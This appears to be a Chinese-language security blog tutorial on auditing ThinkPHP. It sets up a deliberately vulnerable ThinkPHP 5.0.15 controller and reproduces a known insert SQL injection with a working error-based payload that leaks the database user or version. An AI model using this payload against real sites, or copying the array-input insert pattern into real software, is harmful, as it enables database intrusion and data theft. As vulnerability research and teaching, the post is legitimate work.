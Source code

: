 ```yaml
---
title: "ThinkPHP代码审计" # 文章标题.
date: 2023-07-08
draft: false
tags: ["代码审计"]
categories: ["代码审计"]
---
```


# ThinkPHP代码审计

![代码审计](./代码审计.png)

ThinkPHP框架分析。

![ThinkPHP框架](./ThinkPHP框架.png)

ThinkPHP挖掘思路

![ThinkPHP挖掘思路](./ThinkPHP挖掘思路.png)

## Demo演示

在`Test.php`文件写入`index`方法

```php
public function index(){
    $username = request()->get('name'); // get接受变量名为name
    $userpass = request()->get('pass');
    Db::table('users')->insert(["name" => $username, "password" => $userpass]); // 在表里面插入传递的参数值
}
```

进行插入

![插入成功](./ThinkPHP/插入成功.png)

对于所执行的sql语句是不是官方的写法：

1. 可以通过审计系统查看，如果审计系统没有检测到，多半是规矩的写法。
2. 根据数据库写法的格式，如果不是官方手册类似写法就不是官方推荐的格式。

## PHP版本寻找漏洞

PHP版本探测

1. url报错（这个报错可以屏蔽的）

   ![查看ThinkPHP的版本](./ThinkPHP/查看ThinkPHP的版本.png)

2. 工具识别

   ![whatweb搜索](./ThinkPHP/whatweb搜索.png)

3. 在thinkPHP/base.php(思维导图里面还有另外两个地方查看)

   ![base.php文件查看版本](./ThinkPHP/base.php文件查看版本.png)

根据ThinkPHP5.0.15版本，搜索相关漏洞，发现这里存在注入漏洞，是insert的注入漏洞。

将根目录下的composer.json 文件的 require 字段设置成如下：

```json
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.15"
}
```

将 `application/index/controller/Index.php`文件代码设置如下：

```php
<?php
namespace app\index\controller;
class Index
{
    public function index()
    {
        $username = request()->get('username/a'); // 必须要有/a，没有的/a：Payload就无法执行
        db('users')->insert(['username' => $username]);
        return 'Update success';
    }
}
```

 创建数据库信息如下：

```sql
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
```

在 `application/database.php`文件中配置数据库相关信息，并开启 `application/config.php`中的`app_debug`和`app_trace`。

![配置数据库信息](./ThinkPHP/配置数据库信息.png)

Payload为：`username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1`。

![显示出用户](./ThinkPHP/显示出用户.png)

可以将`user()`替换为`version()`函数，进行查看MySQL的版本。

总结：漏洞利用条件

1. thinkphp的版本：5.0.13<=ThinkPHP<=5.0.15 、 5.1.0<=ThinkPHP<=5.1.5

2. 存在insert插入操作

3. 传参的形式以数组的形式传参get('username/a')

## 寻找ThinkPHP漏洞

去thinkphp的官网查看更新（一般有安全更新，然后通过对比与上一个版本不一样的位置，找到漏洞）。

![安全更新](./ThinkPHP/安全更新.png)

点击commit查看版本差异，通过对应的commit找到相应的安全问题。





